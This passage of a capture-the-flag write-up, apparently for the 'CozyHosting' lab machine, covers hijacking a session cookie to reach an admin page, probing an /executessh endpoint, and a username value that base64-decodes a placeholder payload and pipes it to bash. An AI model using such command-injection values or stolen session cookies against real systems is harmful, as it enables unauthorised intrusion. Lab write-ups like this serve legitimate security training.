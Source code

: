 [](#exploitation)

With a sessions cookie, we can now log in as the user "kanderson".

Figuring out what to edit and change took some time for me as I am still very new. I received another hint which helped me in the following.

Using BurpSuite Repeater we send the request to the Repeater tab, change the request header from `POST /login HTTP/1.1` to `GET /admin HTTP/1.1` and add the `Cookie: JSESSIONID=<session_cookie>` to the request header:

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FskdByKhrTDrekGP0vU0U%2Fuploads%2F5hDrYfRie29Ow3jGfnJJ%2Fimage.png?alt=media&token=57083118-3c63-472a-91c7-d0f627944648)

Write a caption

In the raw HTML for the admin dashboard, we see that "Connection Settings" has an action assigned as `/executessh`. This did not appear in the `dirsearch`. I spent some time trying to figure this out as I was using the wrong requests in my repeater trying different combinations to get the `/executessh` to show anything other than an error page.

Let's start by adding to our request header a host and username. I am change it to a `POST` request and try my host IP and a blank username:

HTTP/1.1 302

Server: nginx/1.18.0 (Ubuntu)

Date: Thu, 29 Feb 2024 17:40:11 GMT

Content-Length: 0

Location: http://cozyhosting.htb/admin?error=usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface] [-b bind_address] [-c cipher_spec] [-D [bind_address:]port] [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11] [-i identity_file] [-J [user@]host[:port]] [-L address] [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port] [-Q query_option] [-R address] [-S ctl_path] [-W host:port] [-w local_tun[:remote_tun]] destination [command [argument ...]]

Connection: close

X-Content-Type-Options: nosniff

X-XSS-Protection: 0

Cache-Control: no-cache, no-store, max-age=0, must-revalidate

Pragma: no-cache

Expires: 0

X-Frame-Options: DENY

Plain text

In the location attribute, we get an error relating to ssh. Again, I receive another hint and determine that there is an exploit here, likely a payload in username or host IP, so do more research.

I came across a payload to put into the username field:

;echo${IFS}"[ PAYLOAD ]"|base64${IFS}-d|bash;

Plain text
